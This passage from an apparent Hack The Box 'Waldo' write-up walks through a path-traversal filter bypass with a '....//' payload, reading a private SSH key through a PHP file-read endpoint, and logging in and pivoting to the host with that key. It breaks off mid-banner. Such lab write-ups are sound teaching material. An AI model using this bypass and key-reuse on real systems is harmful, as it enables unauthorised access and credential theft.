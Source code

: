 We can bypass the filter by using the following sequence: `....//....//....//....//`

```
php > echo str_replace( array("../", "..\\"), "", array("....//....//....//....//"))[0];
../../../../
```

Running it on the target system, we are able to navigate to the user directory:

![readdir](/assets/images/htb-writeup-waldo/readdir.png)

The `.monitor` file looks interesting, we'll use the `fileRead.php` function to read it:

![SSH key](/assets/images/htb-writeup-waldo/sshkey.png)

### Initial shell access

Using the SSH private key we obtained, we can log in as user `nobody`:

```
root@darkisland:~/hackthebox/Machines/Waldo# ssh -i waldo.key nobody@10.10.10.87
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org>.
waldo:~$ ls
user.txt
waldo:~$ cat user.txt
32768b<redacted>
```

### Pivoting to the host OS and privesc

There isn't much else we can do as user `nobody` since we are in a container.

We can however pivot to the host OS by re-using the same key and logging in as user `monitor`:

```
waldo:~/.ssh$ ssh -i .monitor monitor@127.0.0.1
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:YHb7KyiwRxyN62du1P80KmeA9Ap50jgU6JlRaXThs/M.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.
Linux waldo 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1 (2018-04-29) x86_64
           &.                                                                  
          @@@,@@/ %                                                            
       #*/%@@@@/.&@@,                                                          
   @@@#@@#&@#&#&@@@,*%/                                                        
   /@@@&###########@@&*(*                                                      
 (@################%@@@@@.     /**                                             
 @@@@&#############%@@@@@@@@@@@@@@@@@@@@@@@@%((/                               
 %@@@@%##########&@@@....                 .#%#@@@@@@@#                         
 @@&%#########@@@@/                        */@@@%(((@@@%                       
    @@@#%@@%@@@,                       *&@@@&%(((#((((@@(                      
     /(@@@@@@@                     *&@@@@%((((((((((((#@@(                     
       %/#@@@/@ @#/@          ..@@@@%(((((((((((#((#@@@@@@@@@@@@&#,            
          %@*(@#%@.,       /@@@@&(((((((((((((((&@@@@@@&#######%%@@@@#    &    
        *@@@@@#        .&@@@#(((#(#((((((((#%@@@@@%###&@@@@@@@@@&%##&@@@@@@/   
       /@@          #@@@&#(((((((((((#((@@@@@%%%%@@@@%#########%&@@@@@@@@&     
      *@@      *%@@@@#((((((((((((((#@@@@@@@@@@%####%@@@@@@@@@@@@###&@@@@@@@&  
      %@/ .&%@@%#(((((((((((((((#@@@@@@@&#####%@@@%#############%@@@&%##&@@/   
      @@@@@@%(((((((((((##(((@@@@&%####%@@@%#####&@@@@@@@@@@@@@@@&##&@@@@@@@@@/
     @@@&(((#((((((((((((#@@@@@&@@@@######@@@###################&@@@&#####%@@* 
     @@#(((((((((((((#@@@@%&@@.,,.*@@@%#####@@@@@@@@@@@@@@@@@@@%####%@@@@@@@@@@
     *@@%((((((((#@@@@@@@%#&@@,,.,,.&@@@#####################%@@@@@@%######&@@.
       @@@#(#&@@@@@&##&@@@&#@@/,,,,,,,,@@@&######&@@@@@@@@&&%######%@@@@@@@@@@@
```